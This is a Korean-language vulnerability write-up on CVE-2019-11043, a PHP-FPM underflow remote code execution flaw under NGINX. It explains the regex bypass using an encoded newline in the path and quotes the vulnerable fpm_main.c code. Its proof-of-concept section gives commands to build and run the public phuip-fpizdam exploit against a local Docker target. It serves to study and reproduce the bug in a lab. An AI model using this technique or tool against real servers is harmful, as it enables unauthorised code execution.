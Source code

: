 # PHP7 PHP-FPM UnderFlow RCE (CVE-2019-11043)
* Date : Oct 2019
* Credit : [Omar Ganiev](https://twitter.com/ahack_ru)
* CVSS : [9.8](https://nvd.nist.gov/vuln/detail/CVE-2019-11043)
* Affected Versions : NGINX + PHP version < 7.3.11 or < 7.2.24

## Root Cause Analysis
해당 취약점은 NGINX와 PHP7을 함께 구동하는 환경에서 트리거 할 수 있다. PHP-FPM(PHP FastCGI Process Manager)은 웹서버와 PHP를 연결해주며, PHP를 FastCGI 모드로 동작하도록 해준다. PHP-FPM을 지원하는 NGINX에서는 PHP-FPM의 원격코드실행 취약점이 발생한다. 취약점이 발생하는 근본적인 원인은 아래와 같은 정규식을 우회할 수 있다는 것이다.

###NGINX의 URL 분리
```
fastcgi_split_path_info ^(.+?\.php)(/.*)$;
```

path_info 변수에 값을 넣을 때, 위와 같은 정규표현식을 사용한다. 정규표현식에서 '.'에 해당하는 문자는 '\n'을 포함하지 않기 때문에 php-cgi의 PATH_INFO 변수로 들어가는 값에 '/x.php/a%0ab' 이런식으로 '\n' 문자를 넣어주면 정규표현식을 우회하여 PATH_INFO 환경변수에 아무값도 들어가지 않도록 만들 수 있다. 이는 PATH_INFO의 길이가 0으로 간주하도록 만든다.

###sapi/fpm/fpm/fpm_main.c 취약한 소스
```C
if (apache_was_here) {
                                /* recall that PATH_INFO won't exist */
                                path_info = script_path_translated + ptlen;
                                tflag = (slen != 0 && (!orig_path_info || strcmp(orig_path_info, path_info) != 0));
                            } else {
                                path_info = (env_path_info && pilen > slen) ? env_path_info + pilen - slen : NULL;
                                tflag = path_info && (orig_path_info != path_info);
                            }
```
위 코드에서 path_info에 pilen 값이 0으로 들어가면 path_info 포인터에 이상한 값이 들어가게 된다. 또한 PATH_INFO 값이 비어있는 것으로 간주하여 정상경로로 판단하고, 아래와 같은 FCGI_PUTENV가 호출되는 로직으로 들어간다.

###FCGI_PUTENV 함수의 호출
```C
if (orig_path_info) {
                                    char old;

                                    FCGI_PUTENV(request, "ORIG_PATH_INFO", orig_path_info);
                                    old = path_info[0];
                                    path_info[0] = 0;
                                    if (!orig_script_name ||
                                        strcmp(orig_script_name, env_path_info) != 0) {
                                        if (orig_script_name) {
                                            FCGI_PUTENV(request, "ORIG_SCRIPT_NAME", orig_script_name);
                                        }
                                        SG(request_info).request_uri = FCGI_PUTENV(request, "SCRIPT_NAME", env_path_info);
                                    } else {
                                        SG(request_info).request_uri = orig_script_name;
                                    }
                                    path_info[0] = old;
```

여기서 공격자가 URL과 쿼리 문자열 길이를 정확하게 맞추면, PATH_INFO를 _fcgi_data_seg의 첫번째 바이트(*pos)로 지정할 수 있고, path_info[0] = 0를 하는 과정에서 pos에 0이 들어가면, Underflow가 발생한다. 그러면 PATH_INFO의 길이를 조절해서 원하는 위치에 원하는 데이터가 쓰여지도록 만들 수 있다.

## PoC Testing

### Docker 이미지를 활용한 PoC
```
$ git clone https://github.com/neex/phuip-fpizdam
$ cd reproducer

# docker build & run
$ docker build -t test1142 . ; docker run --rm -ti -p 9556:80 test1142
```
```bash
$ cd phuip-fpizdam
$ rm -rf go.mod go.sum
$ go build
./phuip-fpizdam
```
```
./phuip-fpizdam http://localhost:9556/script.php
```

## Reference
- [Hahwul](https://www.hahwul.com/2019/10/28/php7-underflow-rce-vulnerabliity/)
- [Emil Lerner](https://github.com/neex/phuip-fpizdam/blob/master/ZeroNights2019.pdf)
- [PHP bugs](https://bugs.php.net/bug.php?id=78599)